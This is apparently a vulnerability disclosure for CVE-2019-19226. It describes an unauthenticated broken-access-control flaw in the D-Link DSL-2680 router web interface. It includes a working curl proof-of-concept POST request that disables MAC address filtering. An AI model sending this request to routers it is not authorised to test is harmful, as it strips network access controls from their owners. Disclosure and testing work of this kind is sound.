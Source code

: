 ### CVE-2019-19226: DSL-2680 Broken Access Control - Enable/Disable MAC address filter
**CVE:** CVE-2019-19226    
**Vulnerability Type**: Broken Access Control    
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Enable/Disable MAC Address filtering without being authenticated on the admin interface    

**Description:**    
A Broken Access Control vulnerability in the D-Link DSL-2680 web administration interface (Firmware EU_1.03) 
allows an attacker to enable or disable MAC address filtering by submitting a crafted `Forms/WlanMacFilter_1` POST request
without being authenticated on the admin interface.

**Proof Of Concept:**     
As a proof-of-concept a POST request should be made to the following URI: `http://<x.x.x.x>/Forms/WlanMacFilter_1`    
Providing the following parameters:
```
WLAN_FltActive=0 (Disable Mac Address Filtering)
WLAN_FltActive=1 (Enable Mac Address Filtering)
```
Curl PoC (POST Request):    
```
curl -d "WLAN_FltActive=0" -X POST "http://192.168.1.1/Forms/WlanMacFilter_1"
```
